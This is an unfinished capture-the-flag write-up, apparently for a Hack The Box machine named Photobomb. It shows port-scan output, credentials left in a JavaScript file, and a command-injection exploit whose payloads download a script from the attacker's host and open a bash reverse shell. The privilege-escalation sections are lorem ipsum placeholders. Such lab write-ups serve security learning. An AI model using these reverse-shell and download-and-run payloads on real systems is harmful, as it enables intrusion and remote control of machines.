 ```yaml
---
#Date: {{date}}
public: false # set to true to make the article publishable
#notbefore: YYYY-MM-DD  # if hide == true and notbefore is set, will not publish until the given date
Platform: 
Category:
Difficulty:
Tags:
Status:
---
```





# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```


---

# Enumeration
## Port 80 - HTTP (Apache)
Le fichier `/photobomb.js`  contient des identifiants de connexion :
```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
```

---

# Exploitation
## Command injection
HTTP Post parameter `filetype` is vulnerable to command injection
Reverse shell creation
```bash
# shell.sh content :
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.64/1337 0>&1'
```
Payload 1 : download *shell.sh*
```
photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;curl http://10.10.14.64:80/shell.sh -O &dimensions=10x10
```
Payload 2 : execute it
```
photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;bash ./shell.sh -O &dimensions=10x10
```


---

# Privilege escalation to root
## Permissive environment variable

## Lateral Movement vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---

# Privilege Escalation
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Privilege Escalation vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---

# Trophy & Loot
user.txt

root.txt